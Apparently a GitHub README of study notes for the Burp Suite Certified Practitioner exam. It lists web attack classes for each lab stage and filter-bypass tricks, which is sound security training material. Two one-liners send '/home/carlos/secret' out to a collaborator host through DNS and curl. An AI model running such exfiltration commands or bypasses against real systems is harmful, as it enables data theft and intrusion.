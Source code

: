 # Burp-Suite-Certified-Practitioner-Notes

Techniques for each stages

### Objective for Stage 1: Get any user access

- SQL Injection
- Cross-Site Scripting
- Authentication / Credentials Brute force
- Request Smuggling
- Web Cache Poisoning

### Objective for Stage 2: Get Admin access

- SQL Injection
- Cross-Site Scripting
- Cross Site Request Forgery
- HTTP host header attacks
- Server-Side Request Forgery
- Access Control vulnerabilities
- Authentication / Credentials Brute force

### Objective for Stage 3: Read Contents of ‘/home/carlos/secret’

- XML External Entities
- SQL Injection
- Command Injection
- Server-Side Template Injection
- Server-Side Request Forgery
- Path Traversal
- File Upload attacks
- Insecure Deserialization
- `host $(cat /home/carlos/secret).BURP_COLLABORATOR_SUBDOMAIN`
- `curl --data @/home/carlos/secret BURP_COLLABORATOR_SUBDOMAIN`

# Misc Bypass Techniques

- Incomplete sanitization - if ‘ is replaced with “, you can bypass it with \
- Null bytes for end of line checks
- Value variation - extremely large, small, negative, decimal
- Double URL encode
- Mix upper and lower case
- Use the same HTTP header twice
- Include the hostname in the request line
- Gather information with /robots.txt, /.git, /backup, and /file_name~
- Include and inject the Host header
- Use X-Forwarded-For and X-Forwarded-Host
- Try different request methods, including TRACE
- Use double quotes to enclose HTML attributes, as they may be converted during render
- Conversion of ASCII to string
    - `%w(51 101 48 103 104 104 103 101 122 57 119 99 121 56 101 56 98 103 97 111).map(&:to_i).map(&:chr).join`
- Redirection to specific path
